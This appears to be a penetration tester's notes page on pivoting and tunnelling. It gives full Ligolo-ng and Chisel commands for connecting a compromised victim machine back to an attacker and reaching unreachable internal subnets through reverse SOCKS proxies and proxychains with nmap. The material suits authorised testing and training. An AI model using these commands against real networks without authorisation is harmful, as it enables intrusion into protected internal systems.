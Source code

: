 **[Hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/tunneling-and-port-forwarding)**

#### Ligolo-ng

```text
Lets define some variables for the example:
	Our attack machine would be 192.168.45.211
	Our victim machine would be 192.168.222.63
	The unreachable network would be 10.4.222.0/24
	The unreachable machine we want to attack 10.4.222.215


- Setup in attack machine:
	# sudo ip tuntap add user $USER mode tun ligolo
	# sudo ip link set ligolo up
	# sudo ip route add 10.4.222.0/24 dev ligolo (Here we specify that the network route should go through our ligolo device)
	# ./proxy -selfcert (Note the port from the output: Listening on 0.0.0.0:11601)

- Launch agent in victim machine:
	# ./agent -connect 192.168.45.211:11601 -ignore-cert

- In ligolo console:
	# session
	# start
	# listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:80 
		Here we specify a port forwarding where all connections recieved in the victim machine at port 8080 would be redirected to our attack achine at port 80. We can change this ports
		If error "bind: permission denied" appear we need to specify another unused port greather than 1000

- To clear everything once we have finished
	# sudo ip route del 10.4.222.0/24 dev ligolo
	# sudo ip link del ligolo
```


#### Chisel

If we have a SSH connection, use SSH Port forwarding instead of Chisel (ssh -D 8081 [root@10.129.160.194](mailto:root@10.129.160.194))

**[Reverse Dynamic SOCKS Proxy](https://exploit-notes.hdks.org/exploit/network/port-forwarding/port-forwarding-with-chisel/#reverse-dynamic-socks-proxy)

It is useful when we want to access to the host & multiple ports that cannot be directly accessible from local machine.

```bash
# In local machine (attack)
chisel server -p 9999 --reverse

# In remote machine (victim)
chisel client 10.0.0.1:9999 R:9000:socks

```

Then modify **`/etc/proxychains.conf`** in local machine.

Comment out the line of **"socks4"**.

```bash
# /etc/proxychains.conf
...
socks5 127.0.0.1 9000

```

To confirm if we can reach the desired host and port, run **nmap** with **proxychains**.

```bash
proxychains nmap localhost

```